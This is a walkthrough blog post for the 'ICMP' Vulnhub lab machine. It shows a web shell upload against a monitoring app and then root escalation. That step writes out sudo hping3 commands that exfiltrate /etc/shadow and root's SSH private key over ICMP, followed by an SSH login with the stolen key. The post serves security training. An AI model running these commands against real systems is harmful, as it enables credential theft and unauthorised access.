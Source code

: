 ```yaml
---
title: ICMP
categories: [Proving Grounds Play]
tags: [Public Exploit, hping3, PrivEsc]
image:
  path: https://rotnemzero.com/wp-content/uploads/2023/07/featured-3.png
  alt:  ICMP Machine 🖥️
---
```



## **Description ⤵️**

>
💡 [ICMP](https://www.vulnhub.com/entry/icmp-1,633/) ⤵️
<br>
Easy box, monitor resources
<br>
This works better with VirtualBox rather than VMware
{: .prompt-info }

### Let’s find the IP Address first >>

![171-1.png](/Vulnhub-Files/img/ICMP/171-1.png)

```bash
IP : 10.0.2.24
```
{: .nolineno}

## Port Scan Results ➡️

![171-2.png](/Vulnhub-Files/img/ICMP/171-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![171-3.png](/Vulnhub-Files/img/ICMP/171-3.png)

Lets check an exploit for this Monitoring System →

![171-4.png](/Vulnhub-Files/img/ICMP/171-4.png)

Now I executed the shell →

![171-5.png](/Vulnhub-Files/img/ICMP/171-5.png)

Lets load the reverse shell url →

URL → [http://10.0.2.24/mon/assets/data/usrimg/she_ll.php](http://10.0.2.24/mon/assets/data/usrimg/she_ll.php)

![171-6.png](/Vulnhub-Files/img/ICMP/171-6.png)

Response →

![171-7.png](/Vulnhub-Files/img/ICMP/171-7.png)

---

## SHELL ➡️

![171-8.png](/Vulnhub-Files/img/ICMP/171-8.png)

```bash
local.txt → c9db6c88939a2ae091c431a45fb1e59c
```
{: .nolineno}

![171-9.png](/Vulnhub-Files/img/ICMP/171-9.png)

![171-10.png](/Vulnhub-Files/img/ICMP/171-10.png)

![171-11.png](/Vulnhub-Files/img/ICMP/171-11.png)

So the crypt file is basically inside the devel file →

![171-12.png](/Vulnhub-Files/img/ICMP/171-12.png)

Now I got in with this password → `BUHNIJMONIBUVCYTTYVGBUHJNI`

![171-13.png](/Vulnhub-Files/img/ICMP/171-13.png)

Lets see how fox can leads me to root !

![171-14.png](/Vulnhub-Files/img/ICMP/171-14.png)

Lets use this ⤵️

![Untitled](/Vulnhub-Files/img/ICMP/Untitled.png)

It allowed a command to run as root. Since we must use ICMP mode, we cannot spawn a shell. However, we can transfer files to a different machine. We could try sending the shadow file or try to send an SSH private key.

Reference: [https://iphelix.medium.com/hping-tips-and-tricks-85698751179f](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)

For this, we require to set up hping3 in listen mode in the receiver machine, whereas from the target machine, we have to send the file.

IP of the receiver machine: 10.0.2.15

IP of the target machine: 10.0.2.60

On the receiver machine, we have to do the following.

```
{: .nolineno}
sudo hping3 -1 10.0.2.24 -9 signature -I eth0 --safe
```
{: .nolineno}

On the target machine, we should do as follows to get the shadow file.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /etc/shadow -d 2000 -c 1
```
{: .nolineno}

This gave me output in my receiving machine. In the command above, -c 1 is the number of times the ping operation is performed. Since we have data size of 2000, we just need a single ping. However, you can completely change the value or exclude it to manually exit later.

![https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png](https://nepcodex.com/wp-content/uploads/2021/07/image-133-700x210.png)

I tried bruteforcing the password but had no luck. Next, I tried to get the private key using the same method.

```
{: .nolineno}
sudo /usr/sbin/hping3 --icmp 10.0.2.27 -e signature -E /root/.ssh/id_rsa -d 2000
```
{: .nolineno}

I got the response like the following. Thus, I decided to do the same in the two different SSH instances of the target machine.

![https://nepcodex.com/wp-content/uploads/2021/07/image-134.png](https://nepcodex.com/wp-content/uploads/2021/07/image-134.png)

On the target machines,

```
{: .nolineno}
# SSH instance 1
sudo hping3 --icmp 127.0.0.1 --listen signature --safe
```
{: .nolineno}

```
{: .nolineno}
# SSH instance 2
sudo hping3 --icmp 127.0.0.1 --sign signature --file /root/.ssh/id_rsa -d 4000 -c 2
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-135.png](https://nepcodex.com/wp-content/uploads/2021/07/image-135.png)

Finally, I got the proper response. Next, I copied it to a file on my local machine.

```
{: .nolineno}
vi id_rsa # Copy the key
chmod 600 id_rsa # This will restrict the private key permissions
```
{: .nolineno}

Lastly, I could log in to the system.

```
{: .nolineno}
ssh root@10.0.2.24 -i id_rsa
```
{: .nolineno}

![https://nepcodex.com/wp-content/uploads/2021/07/image-136.png](https://nepcodex.com/wp-content/uploads/2021/07/image-136.png)

---